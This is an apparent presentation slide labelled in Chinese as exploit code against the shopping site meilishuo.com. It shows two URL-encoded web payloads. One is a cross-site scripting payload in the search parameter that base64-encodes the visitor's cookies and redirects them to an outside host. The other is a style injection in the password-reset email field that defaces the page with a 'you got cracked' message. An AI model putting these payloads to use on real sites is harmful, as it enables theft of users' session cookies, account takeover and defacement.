

利用代码
http://meilishuo.com/search?searchKey=.%2F%3F%3C%3C%3C%22%22%3E
%3Cscript%3E
var%20c%20=%20btoa(document.cookie);
var%20b%20=%20%27http://safe.feei.cn/admin.php?location=%27;
var%20a%20=%20[];
a.push(b);a.push(c);a.join(%27%27);
window.location.href=a;
%3C%2Fscript%3E%3E
&searchType=1&filter=goods&frm=searchsuggestion&suggest_frm=
https://account.meilishuo.com/user/findPwd/send_email?email=
%3Cstyle%3E
.success{display:none;}
.findPwdForm{font-size:24px;text-align:center;}
.findPwdForm:before{content:%22Hey%20man,you%20got%20cracked%20%E2%80%93%20Feei%20Team!%22}
.logo_new{background:url(%22http://feei.cn/_assets/img/logo.png%22);width:230px;height:40px;}
.flowStep{display:none;}
%3C/style%3E